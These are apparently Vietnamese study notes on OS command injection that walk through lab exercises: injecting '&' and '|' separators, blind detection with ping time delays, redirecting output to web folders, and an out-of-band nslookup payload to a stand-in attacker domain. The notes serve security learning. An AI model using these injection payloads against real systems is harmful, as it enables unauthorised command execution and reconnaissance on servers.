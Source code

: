 # OS command injection

## Khái niệm

> ![img](../asset/os-command-injection-0.png)

## OS command injection là gì?

> OS command injection (hay còn được gọi là shell injection) là 1 vul web cho phép attacker thực thi command trên OS (HĐH) tùy ý trên server và xâm phạm, lấy cắp data.

> Thông thường attacker có thể lợi dụng vul để xâm phạm các thành phần khác, khai thác các mối quan hệ

## Executing arbitrary commands

> Xem xét ứng dụng shopping sau để xem mặt hàng có còn trog shop hay không:
>
> ```
> https://insecure-website.com/stockStatus?productID=381&storeID=29
> ```

> Để cung cấp thông tin mặt hàng, app phải query các system kế thừa nhau. Các chức năng có thể gọi bằng shell:
>
> ```
> stockreport.pl 381 29
> ```

> Vì app không triển khai các biện pháp bảo vệ nên có thể đưa shell vào OS:
>
> ```
> & echo aiwefwlguh &
> ```

> Nó sẽ execute:
>
> ```
> stockreport.pl & echo aiwefwlguh & 29
> ```

> `echo` chỉ là lệnh in cơ bản, đây là cách hữu ích để thử exploit. `&` để phân tách chuỗi trong shell. Kết quả:
>
> ```
> Error - productID was not provided
> aiwefwlguh
> 29: command not found
> ```

> 3 Dòng đầu chứng minh rằng:
>
> `stockreport.pl` không được thực thi là do thiếu đối số
>
> `echo` vẫn được execute
>
> `29` nó là không phải command

### Lab: OS command injection, simple case

> Des: Lab này chứa vul OS command injection trong check sản phẩm. Ứng dụng thực thi một lệnh shell với id của sản phẩm. Để solve hãy thực hiện lệnh `whoami` tại người dùng hiện tại

> Bài này chỉ cần vào check stock rổi thay đổi param thêm `|whoami` là oke:
> ![img](../asset/os-command-injection-1-OS-command-injection-simple-case-0.png)

## Useful commands

> Khi đã exploit được vul thì dưới đây là một số lệnh hữu ích trên nền tảng linux và window:
>
> Purpose of command | Linux | Windows
>
> Name of current user | whoami | whoami
>
> Operating system | uname -a | ver
>
> Network configuration| ifconfig | ipconfig /all
>
> Network connections | netstat -an | netstat -an
>
> Running processes | ps -ef | tasklist

## Blind OS command injection vulnerabilities (Lỗ hổng chèn lệnh hệ điều hành mù)

> Ứng dụng không trả về kết quả trong response, nhưng vẫn có thể exploit bằng chèn mù nhưng cần các kĩ thuật khác nhau

> Xem xét 1 web cho user gửi feedback về web. User gửi phản hồi và email của họ. Sau đó phía server tạo mail và gửi về admin web:
>
> ```
> mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
> ```

## Detecting blind OS command injection using time delays (Phát hiện đưa lệnh mù vào hệ điều hành bằng cách sử dụng độ trễ thời gian)

> Có thể inject lệnh đưa vào sẽ kích hoạt time delays. Lệnh `ping` là 1 cách hiệu quả để thực hiện việc này vì nó cho phép chỉ định số lượng ICMP cần gửi do đó thời gian cần thiết để chạy lệnh:
>
> ```
> & ping -c 10 127.0.0.1 &
> ```

> Lệnh này sẽ khiến ứng dụng ping bộ điều hợp mạng loopback trong 10 giây.

### Lab: Blind OS command injection with time delays

> Des: Chứa vul blind OS command inject tại submit feedback. Chứa thực thi shell, output không được response. Để solve hãy exploit blind os command injection gây là delays 10s

> Dùng burp và chặn sửa request tại param email: `email:x||ping+-c+10+127.0.0.1||` > ![img](../asset/os-command-injection-2-Blind-OS-command-injection-with-time-delays-0.png)

> Đợi 10s sau burp sẽ response và qua web sẽ solve được:
> ![img](../asset/os-command-injection-2-Blind-OS-command-injection-with-time-delays-1.png)

## Exploiting blind OS command injection by redirecting output

> Có thể redirect output từ command được đưa từ trong folder root.
>
> Ví dụ muốn lấy file từ folder : `/var/www/static`:
>
> ```
> & whoami > /var/www/static/whoami.txt &
> ```

> Kí tự `>`gửi result từ command `whoami` đến tệp được chỉ định.

### Lab: Blind OS command injection with output redirection

> Des: Lab này chứa vul OS command injection trong function feedback

> App sẽ thực thi các shell mà user nhập vào.Output không được trả về trong response. Tuy vậy có thể redirect để nắm bắt command :
>
> ```
> /var/www/images/
> ```

> Để solve thì thực hiện command `whoami`

> Ban đầu nhập vào để submit feedback:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-0.png)

> Chặn và sửa field email, ta sẽ viết command `whoami` vào file exploit.txt và lưu trong path `/var/www/images`:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-1.png) ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-2.png)

> Response:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-3.png)

> Về trang chủ và dùng burp để chặn bắt nó:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-4.png) ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-5.png)

> Thấy path của `/image?filename=x` ta send sang repeater và đổi thành file exploit.txt vừa sửa:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-6.png)

> Chuyển sang off và nhận kết quả:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-7.png) ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-8.png)

## Exploiting blind OS command injection using out-of-band (OAST) techniques

> Có thể sử dụng một lệnh được đưa vào sẽ kích hoạt tương tác `out-of-band` với system mà bạn kiểm soát, sử dụng các kỹ thuật `OAST`:
>
> ```
> & nslookup kgji2ohoyw.web-attacker.com &
> ```

> payload sử dụng command `nslookup` để thực hiện tra cứu DNS cho miền được chỉ định. Attacker có thể theo dõi việc tra cứu đang diễn ra, do đó phát hiện rằng lệnh đã được đưa vào thành công

### Lab: Blind OS command injection with out-of-band interaction

> Des: Lab này dính vil OS command injection tại chức năng feedback.
>
> Ứng dụng thực thi shell do user nhập vào. Command thực thi không đồng bộ và k ảnh hưởng tới response của app. Không thể redirect ra vị trí mà mong muốn. Tuy nhiên có thể kích hoạt `out-of-band` để tương tác với miền bên ngoài
>
> Để solve thì exploit và đưa ra DNS cho `Burp Collaborator`

> Bài này chỉ cần chặn lúc submit feedback và sửa field email:
>
> ```
> email=x||nslookup+link||
> ```
>
> ![img](../asset/os-command-injection-4-Blind-OS-command-injection-with-out-of-band-interaction-0.png) ![img](../asset/os-command-injection-4-Blind-OS-command-injection-with-out-of-band-interaction-1.png)
